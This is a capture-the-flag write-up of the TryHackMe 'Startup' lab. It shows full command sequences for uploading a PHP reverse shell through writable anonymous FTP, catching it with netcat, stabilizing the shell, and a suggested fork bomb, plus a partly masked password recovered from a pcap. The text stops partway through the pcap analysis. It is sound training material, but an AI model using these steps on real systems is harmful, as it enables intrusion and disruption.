


# TryHackMe Writeup - Startup

This is a full detailed writeup, with a few bonus sections and for some sections different techniques to achieve the same goal. This one is really not complicated but request to do some researches on the target machine. Then you probably also need to dig deeper in what the opportunities are. Really a nice one!

Sharing is caring (TM) <br> 
Enjoy!

_NB. I stripped out passwords and CTF flags. Sorry_

- Check out the [Startup](https://tryhackme.com/room/startup) TryHackMe Room

OTHER BONUS:

- The [What the Shell Room](https://tryhackme.com/room/introtoshells) on TryHackMe is a great resource to get this [Startup room](https://tryhackme.com/room/startup) finished with 2 fingers into the nose.

-----

**Abuse traditional vulnerabilities via untraditional means.**

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

[](https://tryhackme.com/room/startup)

-----

## Table of Contents

- [Tools Used](#tools-used)
- [Enumeration](#enumeration)
  - [Enumerating target ports](#enumerating-target-ports)
  - [Enumerating the web server](#enumerating-the-web-server)
- [Handling the FTP server](#handling-the-ftp-server)
- [Uploading a web shell](#uploading-a-web-shell)
- [Reverse (web)shell connection](#reverse-webshell-connection)
  - [Stabilizing the shell](#stabilizing-the-shell)
- [Analyzing suspicious data traffic](#analyzing-suspicious-data-traffic)
- [Analysing the sudo version and vulnerability](#analysing-the-sudo-version-and-vulnerability)
- [Login into user account lennie](#login-into-user-account-lennie)
- [Privilege escalation](#privilege-escalation)
  - [Option - SUID bit on a file](#option---suid-bit-on-a-file)
  - [Option - Reverse Shell](#option---reverse-shell)
    - [Bash Reverse Shell](#bash-reverse-shell)
    - [NetCat reverse shell](#netcat-reverse-shell)
- [Mission accomplished](#mission-accomplished)

## Tools Used

- `Kali Linux` - The best pentest distribution out there. Of course the best, it's derived from Debian, the Universal Operating System.
- `nmap` - To enumerate the ports of a host.
- `gobuster` - To enumerate a web server.
- `ftp` - The cli app, that one that sucks like hell. [FTP Must Die](https://mywiki.wooledge.org/FtpMustDie).
- `nc` - To make magic connections between computers.
- `curl` - To fetch / activate files.
- `python` - Ran `python -m SimpleHTTPServer 8080` to rock like a Pro Python programmer :-D
- `Wireshark` - To lose my time and to break my head for nothing, for once.
- `strings` - To actually do the job of `Wireshark` and read the pcap file to find out the flying password.
- `pspy` - unprivileged Linux process snooping. A script [from here](https://github.com/DominicBreuker/pspy).
- `linpease` - But this script couldn't help me today. A script [from here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

## Enumeration

### Enumerating target ports

As most of the time, first start by enumerating the host ports. With these CTF (Capture The Flag) challenges, it is most of the time safe to do a `nmap` scan with the default common scripts `-sC`, to look for version detection `-sV`. Agressive scans `-A` is not always okay, but an easy way to get host information `-O` with extra goodies. Optionally, scanning on all ports `-p-` to be sure. So the last 2 parameters are up to you. For this host, it is okay.

```commandline
# nmap -sC -sV -A -p- 10.10.218.64
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-15 22:43 CEST
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Traceroute Timing: About 32.26% done; ETC: 22:43 (0:00:00 remaining)
Nmap scan report for 10.10.218.64
Host is up (0.030s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Aug 15 20:37 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.208.30
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/15%OT=21%CT=1%CU=33782%PV=Y%DS=2%DC=T%G=Y%TM=61197C8
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=2%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   28.48 ms 10.8.0.1
2   28.69 ms 10.10.218.64

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.06 seconds
```

**My findings:**

- `vsftpd 3.0.3` - FTP server allows anonymous login and running on standard port `21`.
  - A writeable folder called `ftp`.
  - A few files readable by everyone.
- `Apache/2.4.18 (Ubuntu)` - Webserver running on standard port `80` with a page titled as `Maintenance`.
- `OpenSSH 7.2p2 Ubuntu 4ubuntu2.10` - SSH server running on standard port `22`.
- The OS information I received is not clear, but we can assume this is an `Ubuntu` server.

_So far, did not do any vulnerability research for the running software services or OS. This is an option left to do, if I find nothing else to get in._

### Enumerating the web server

The first thing after my port scan, I took a quick look with my web browser onto that webserver. Just to have an idea how things looks like and which tools I should use in first instance to start my enumeration. Nothing fancy seen there, so I started enumerating with `gobuster`, with a medium wordlist, which takes quite time to finish. Theirs `Apache` log files will be filled up, that's sure and not so smart if you want to be discrete. While the enumeration is busy with `gobuster`, I can look a bit more closely to the website. With what it is build, looking in the `HTML` source code etc. `Javascript`, if any...

Enumerated the web server with `gobuster`:

```commandline
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.218.64                                                       
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.218.64
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/15 22:04:04 Starting gobuster in directory enumeration mode
===============================================================
/files                (Status: 301) [Size: 312] [--> http://10.10.218.64/files/]
/server-status        (Status: 403) [Size: 277]                                 
                                                                                
===============================================================
2021/08/15 22:15:08 Finished
===============================================================
```

The website, like said, nothing fancy and still in construction. They should have put at least their full contact information, like phone number, email address, shop location, social media links and all that. Just saying, that's good for their clients and make things more easy for the social engineering too.

Did not find anything interesting in the source code of that page either. It's about some very basic `HTML` code written with `MS Notepad` or so.

The `files` folder located on <http://10.10.218.64/files/> as mentioned by `gobuster` is accessible, the `Apache 2.4.18` config of this web server allows file listing, and we see a few files. That's very dangerous, but okay as there is still nothing interesting. Here's a screenshot, for those UI / UX researches that want to apply for a new opportunity. It's the moment. Start from scratch. I think your guys will have a lot of work to do. The `contact us` link does not even work.



## Handling the FTP server

I was 4 years, when that FTP stuff came out. Calculate my age and PM me. Just to remind you that this start to be old, in the IT world, it is so outdated.

I have made an `FTP` connection with user `anonymous` and a blanc (empty) password and saw a few files on the `ftp` server. Always list for all files (`-lah`), hidden files included ;-) The `dir -a`, (dir listing) command should have done the job too. Yes, type in `help` and you get some help. `help dir`, will not give you much information, however. Onto my system, `man ftp` lacks also serious basic information. Why they make things so complicated? But whatever, [FTP Must Die](https://mywiki.wooledge.org/FtpMustDie).

I have `get` (downloaded) the files that where available and immediately also `put` (uploaded) one of their files in the `ftp` folder. Just to check out where this file will end up and indeed, this file shows up via the webserver in the `files` folder at <http://10.10.218.64/files/>.

```commandline
ftp 10.10.218.64
Connected to 10.10.218.64.
220 (vsFTPd 3.0.3)
Name (10.10.218.64:itchy): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Aug 15 20:37 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> get .test.log
local: .test.log remote: .test.log
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .test.log (5 bytes).
226 Transfer complete.
5 bytes received in 0.00 secs (37.2734 kB/s)
ftp> get important.jpg
local: important.jpg remote: important.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
226 Transfer complete.
251631 bytes received in 0.13 secs (1.8787 MB/s)
ftp> get notice.txt
local: notice.txt remote: notice.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notice.txt (208 bytes).
226 Transfer complete.
208 bytes received in 0.00 secs (2.7173 MB/s)
ftp> cd ftp
250 Directory successfully changed.
ftp> put notice.txt
local: notice.txt remote: notice.txt
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
208 bytes sent in 0.00 secs (1.8367 MB/s)
ftp>
```

Here is the content of the downloaded and non-interesting files:

```commandline
$ cat notice.txt 
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. 
People downloading documents from our website will think we are a joke! Now I 
dont know who it is, but Maya is looking pretty sus.

$ cat .test.log 
test
```

And the fancy picture:


*My first thought was that this is a photo composition with the profile pic of [sswisskyrepo](https://github.com/swisskyrepo), but no, have checked. We never know with these monkeys.*

## Uploading a web shell

Well, what can I tell? It sounds like they are asking for it. Free FTP access, and upload capabilities. And like we have seen so far, other monkeys already uploaded fancy stuff. I'm not going to upload free pr0n or one of my favorites computer related series, [Mr. Robot](https://en.wikipedia.org/wiki/Mr._Robot). I'm not into pr0n, and uploading nice series takes a lot of time, so I have to try out my lightweight tools.

On a `Kali` machine, we have various web shells preinstalled for different languages. See also the bonus tip bellow. I used this one `/usr/share/webshells/php/php-reverse-shell.php` which I copied to my `~/tools/webshells/` renamed it to `webshell.php` and edited the `$ip` variable with my current IP of my attackers box. Left the `port` config as is on `1234`. However, it would have been smarter to use a more discrete port in real life situations. Finally, I have uploaded it in the `ftp` folder on the ftp server by using the same technique as previously done during my test. The file ended up at: <http://10.10.218.64/files/ftp/webshell.php>

```commandline
┌──(itchy㉿scratchy)-[~]
└─$ mkdir -p ~/tools/webshells

┌──(itchy㉿scratchy)-[~]
└─$ cd ~/tools/webshells

┌──(itchy㉿scratchy)-[~/tools/webshells]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php webshell.php

┌──(itchy㉿scratchy)-[~]
└─$ ifconfig tun0 | grep -i 'inet ' | awk -F' ' '{print $2}'
10.8.208.30

┌──(itchy㉿scratchy)-[~/tools/webshells]
└─$ sed -i s@127.0.0.1@10.8.208.30@ webshell.php

┌──(itchy㉿scratchy)-[~/tools/webshells]
└─$ ftp 10.10.218.64
Connected to 10.10.218.64.
220 (vsFTPd 3.0.3)
Name (10.10.218.64:itchy): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put webshell.php
local: webshell.php remote: webshell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (45.5525 MB/s)
ftp> exit
221 Goodbye.
```

- `mkdir -p` - Create parent directories if it does not exist. If exist, STFU (sorry).
- `ifconfig tun0 | grep -i 'inet ' | awk -F' ' '{print $2}'` - To get my ip of my `tun0` (VPN) device. Using `ip a`, `ip addr` or `ifconfig tun0` or whatever is boring. It's not for nothing I have to write down everything :-D
- `sed -i s@127.0.0.1@10.8.208.30@ webshell.php` - An easy trick for lazy people.

So far so good. Ready to move to the next step.

**Bonus tip**

Show up the directory (`-d`) structure of preinstalled webshells `/usr/share/webshells/` but maybe is that nice little tree tool not installed yet (`sudo apt install tree`):

```commandline
┌──(itchy㉿scratchy)-[~/tools/webshells]
└─$ tree -d /usr/share/webshells/
/usr/share/webshells/
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php
    └── findsocket

8 directories
```

It is always good to look to all the goodies we have at your disposal.

## Reverse (web)shell connection

Now ready to make a remote connection (reverse shell) to this box. But first I want / need to set up a few things for my own conveniences with `tmux`. You can skip this mega bonus tip section and read bellow the **_Classic way without fancy toys_** where I repeat the steps taken in a more traditional way.

**BONUS TIPS for current & future tmux users**

`tmux` is like the `screen` utility, but then on free steroids. Trust me, `screen` is awesome, `tmux` even more.

_PS. I don't take steroids, nor drugs, pr0n or whatever. Just saying becasue people became crazy with my strange humor._

NB. In the following notes, `<prefix>` key is `CTRL + b`, but like the prefix key is configurable, so better to make references to the terminology of `<prefix>`. When there is mention of `<prefix> + ?`, this actually mean: Pressing `CTRL + b` and then releasing them, followed by the `?` (exclamation) button on your keyboard. Note also that commands (letters) are case-sensitive.

_BTW my old `screen` friends, I have 2 prefix set up, `CTRL + a` too. Good old habits and actually more practical. It is a pain to stretch to letter `b` with one hand._

**So let's get started with tmux!**

- In `tmux`, so far I have already 2 windows open. One with my `nmap` scan and one for `gobuster`.
- I then create a (3rd) dedicated window with the command `<prefix> + c`. Which I rename with the command `<prefix> + ,` and call it `NetCat`.
- Then I start my `NetCat` listener with the command: `nc -lvnp 1234`.
- Split the screen (create a pane) horizontally with the command `<prefix> + "`.
- In this new pane I ran `curl http://10.10.218.64/files/ftp/webshell.php`. 
  - Just to avoid using a GUI web browser, which would give the feeling hanging / loading forever when fetching this page. And as bonus, with command line tools, it will be more obvious when our web shell connection fails or disconnect at some point.
- Switching to these different panes can be done with the command `<prefix> + UP` (or `DOWN`) arrows, or `<prefix> + ;`.
- So far, the `netcat` listener is in the upper pane, and the `curl` command in the bottom pane. Need to inverse the positions of the panes with the command `<prefix> + {`.
  - I will not interact with the `curl` pane, and normally it will not echo out any information during the remote connection, but we need to keep an eye on it, in case our remote connection get disconnected for whatever reason. User errors included.
- Now adjusting the size of the panes with the command `<prefix> + UP` (or `DOWN`) arrow by keeping the  `CTRL` button pressed after having released the `b` button. And adjust the size of the panes as we don't need to give so much room for the `curl` command. I will work in the listener pane anyway.
- If at some point, for whatever reason, in this  context or not, we need to maximise a pane, use `<prefix> z` to make it "`full screen`" in the terminal. The same command to revert the state.
- **Bonus points**: check this `<prefix> + ?`. It is the most important command and a nice cheat sheet under our fingers.

_I will confuse you even more now, but it's important to note. With the webshell I used, the `curl` command can be stopped by now with pressing `CTRL + c` and the remote connection will stay alive. We could close that `curl` pane, window, terminal or whatever and continue our work in our `netcat` connection. However, if something happen in our connection. We don't get feedback. So better to leave the `curl` command running. `PoC` (Proof of Concept): run both commands, press `CTRL + c` in the `netcat` pane. Watch the information you get in the `curl` pane. Again; run both commands, `CTRL + c` in the `curl` pane. use a few commands (`ls`, `id`, `pwd` or whatever) in the `netcat` pane. It still works, now `CTRL + c` in the `netcat` pane. And you see that you don't get "connection terminated" message. Hopefully, you got the idea behind this all._

Here's a screenshot that tells more than words:



_If you need more information or a quick tmux howto + config tips, check out my [dedicated tmux](https://github.com/dvanmosselbeen/dvm-docs/blob/master/OS/GNU-Linux/Tools/tmux.md) document._

**Classic way without fancy toys:**

To resume with other words and without `tmux` dope: I have set a `netcat` listener in a console on my host machine:

```commandline
nc -lvnp 1234
```

Then in another console a command to download (read activate) the reverse web shell with `curl`. That's more handy with a command line tool than a browser that look like loading forever / hanging when opening that file while it's listening and in a remote connection:

```commandline
curl http://10.10.218.64/files/ftp/webshell.php
```

On my other console, where netcat is listening, it got connection as `www-data` user:

```commandline
┌──(itchy㉿scratchy)-[~]                                                
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.218.64] 48130
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:43:33 up  3:46,  0 users,  load average: 0.07, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We are in the system Houston!

### Stabilizing the shell

It's time to stabilize the remote connection. As for example, if we hit `CTRL + c`, our connection get broken. If we run some other scripts, trying to exit them the brutal way, will also kill our remote connection. And the bonus goodies, is that we want to be able to use `tab` completion, `history` features like an all that traditional shell.

To do so I used the python trick `python -c 'import pty;pty.spawn("/bin/bash")'`. Then have set the `TERM` variable to `xterm` with the `TERM=xterm` command. Then I have put this process in background with pressing `CTRL + z` (see that ^Z bellow) and I came back into my own shell. Then ran the command `stty raw -echo; fg` which foreground us back into our process. Finally, I pressed once the `Enter` key, to see back the prompt and then the `TAB` key on my keyboard to check that this been work now.

**IMPORTANT NOTE: This disabled echoing my own shell. So if something wrong happen like network disconnection or when I'm done with this all. Enter `reset` to reset the terminal.**

Here's how this looks like in a terminal:

```commandline
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ TERM=xterm
TERM=xterm
www-data@startup:/$ ^Z
[1]+  Stopped                 nc -lvnp 1234
┌──(itchy㉿scratchy)-[~/Downloads/webshells]
└─$ stty raw -echo; fg
nc -lvnp 1234

www-data@startup:/$ 
Display all 1302 possibilities? (y or n)
```

_**NOTE:** If something wrong happen into the try with above commands, it could be you mess up temporally your shell and end up in the need to kill it. Because it refuses to `echo` back, even after the `reset` command. Just saying you know, been there several times. I have no clue, it's supposed to work but I suspect something is going wrong with that `webshell` or `netcat` or even current `Kali` config. They want to keep the connection alive somehow. That's why I like to use `tmux`, the magic kill key is `<prefix> &`. So you know how to fix the worst :-D Or if I can speak openly, first stopping that `curl` command and then trowing a fork bomb `:(){ :|:& };:` into that remote shell, will freak out the target a bit (he will not die, trust me), and you will save your day after 3-5 minutes or of patience, the time the target get out of its panic situation. Then entering `reset` will fix the shell. I'm not joking on this one. Test and see by yourself. Contact me if you have a better fix! I don't like `socat`. That fork bomb is actually my goto get out safely without killing my shell. Peace and Love you all_

Once the shell stabilized, we fall into the root (`/`) of the hard disk drive. Found a few interesting files. The `recipe.txt` and a folder `incidents`:

```commandline
www-data@startup:/$ ls -lah
total 100K
drwxr-xr-x  25 root     root     4.0K Aug 15 19:56 .
drwxr-xr-x  25 root     root     4.0K Aug 15 19:56 ..
drwxr-xr-x   2 root     root     4.0K Sep 25  2020 bin
drwxr-xr-x   3 root     root     4.0K Sep 25  2020 boot
drwxr-xr-x  16 root     root     3.5K Aug 15 19:56 dev
drwxr-xr-x  96 root     root     4.0K Nov 12  2020 etc
drwxr-xr-x   3 root     root     4.0K Nov 12  2020 home
drwxr-xr-x   2 www-data www-data 4.0K Nov 12  2020 incidents
lrwxrwxrwx   1 root     root       33 Sep 25  2020 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root       33 Sep 25  2020 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x  22 root     root     4.0K Sep 25  2020 lib
drwxr-xr-x   2 root     root     4.0K Sep 25  2020 lib64
drwx------   2 root     root      16K Sep 25  2020 lost+found
drwxr-xr-x   2 root     root     4.0K Sep 25  2020 media
drwxr-xr-x   2 root     root     4.0K Sep 25  2020 mnt
drwxr-xr-x   2 root     root     4.0K Sep 25  2020 opt
dr-xr-xr-x 132 root     root        0 Aug 15 19:56 proc
-rw-r--r--   1 www-data www-data  136 Nov 12  2020 recipe.txt
drwx------   4 root     root     4.0K Nov 12  2020 root
drwxr-xr-x  25 root     root      900 Aug 15 20:17 run
drwxr-xr-x   2 root     root     4.0K Sep 25  2020 sbin
drwxr-xr-x   2 root     root     4.0K Nov 12  2020 snap
drwxr-xr-x   3 root     root     4.0K Nov 12  2020 srv
dr-xr-xr-x  13 root     root        0 Aug 15 20:56 sys
drwxrwxrwt   8 root     root     4.0K Aug 15 23:07 tmp
drwxr-xr-x  10 root     root     4.0K Sep 25  2020 usr
drwxr-xr-x   2 root     root     4.0K Nov 12  2020 vagrant
drwxr-xr-x  14 root     root     4.0K Nov 12  2020 var
lrwxrwxrwx   1 root     root       30 Sep 25  2020 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root       30 Sep 25  2020 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
```

The content of the `/recipe.txt` file:

```commandline
ww-data@startup:/$ cat /recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was [****].
```

**In this `/recipe.txt` file, we have an answer of one of the Capture The Flag questions, which I have stripped out here. See the `[****]` part.**

The folder `incidents` contained the following:

```commandline
www-data@startup:/$ ls -lah incidents
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Nov 12  2020 .
drwxr-xr-x 25 root     root     4.0K Aug 15 19:56 ..
-rwxr-xr-x  1 www-data www-data  31K Nov 12  2020 suspicious.pcapng
```

I have uploaded the [suspicious.pcapng](files/suspicious.pcapng) (<- Get it here) on the victims webserver with the `ftp` command line tool, as it was writeable to everyone, and thus easy to get this file onto my computer without the need to use extra tools. After thinking about it and when the job was already done, I could have done `cp /incidents/suspicious.pcapng /var/www/html/files/ftp/` which is nicer than these hateful `ftp` commands and protocol. [FTP Must Die](https://mywiki.wooledge.org/FtpMustDie) you know.

```commandline
www-data@startup:/$ cd incidents
www-data@startup:/incidents$ ftp 10.10.218.64
Connected to 10.10.218.64.
220 (vsFTPd 3.0.3)
Name (10.10.218.64:www-data): anonymous
331 Please specify the password.
Password:

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
ftp> put suspicious.pcapng
local: suspicious.pcapng remote: suspicious.pcapng
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
31224 bytes sent in 0.00 secs (541.4095 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118           208 Aug 15 22:38 notice.txt
-rwxrwxr-x    1 112      118          5492 Aug 15 20:18 webshell.php
-rwxrwxr-x    1 112      118         31224 Aug 15 23:14 suspicious.pcapng
226 Directory send OK.
ftp> exit
221 Goodbye.
```

## Analyzing suspicious data traffic

We got a `suspicious.pcapng`, what this contains, no idea. What's the goal, what the research request? I have then looked with `Wireshark` but could not find anything useful as information even if this is all about plain non encrypted HTTP data. Packet `#34`, yes, someone already made use of a web shell in the past, this we could read in the pcap file with `Wireshark`, but for the rest no other hints. At this stage I don't know what I'm looking for. So let's try another method which is faster.

Too much gibberish data in my opinion and it needs to go to the point. So as its to read gibberish language, I finally made use of the basic `strings` utility and found this way with a lot of luck the password near the end of the file. Using `strings` in this context is way more efficient than a such complex and powerful tool as `Wireshark`.

```commandline
strings suspicious.pcapng  | less 
```

This gave a lot of output in the console, not so much in fact, but had to pipe it to the `less` utility and take time to figure out what's going on. I don't really get it, yes I do very well. But miss the context so there are some things I will assume and guess. This is of course some network traffic capture of non encrypted data. Looks like `parrot` a pentest distribution has been used. An alternative to `Kali`, whatever, `I LOVE KALI`, `Debian` too of course.

We clearly see that the hacker has made use of a web shell. Stabilized his shell the same way as I have done. The hacker has looked around on the filesystem. Nothing bad so far I would say. Tried to look (`-l list`) what `sudo` would have allowed him or to find out some `sudo` vulnerability. The hacker tried to `sudo` log in, but failed several times. And then we see a password popping up there, but I don't understand how and why this password of user lennie shows up there. I can tell, I tried to log in with this strange password and succeed. What a luck. But looking to the pcap data, the hacker still failed to log into lennie's user account. This stays a mystery for me. The hacker has also dumped the `/etc/passwd` file, but not looked or tried to dump the hashes in `/etc/shadow` according to this pcap file. Strange! I can tell you permission denied on the shadow one, I tried :-D

Feels like the hacker started and then gave up or so. I have no idea. I need to take a closer look on what is going on with this `sudo` utility. But maybe this was about a vulnerable sudo version they patched or updated it by now. Go figure it!

Here is a stripped version of the output to give you an idea, and I also have put 4 asterisks (*) in the password. So you can also break your head on this one.

```commandline
bash: cd: lennie: Permission denied
www-data@startup:/home$ |
.?:MD
sudo -l
sudo -l
[sudo] password for www-data: 
@       c4ntg3t****ghsp1c3
6%      @
Sorry, try again.
[sudo] password for www-data: 
^/Sorry, try again.
[sudo] password for www-data: 
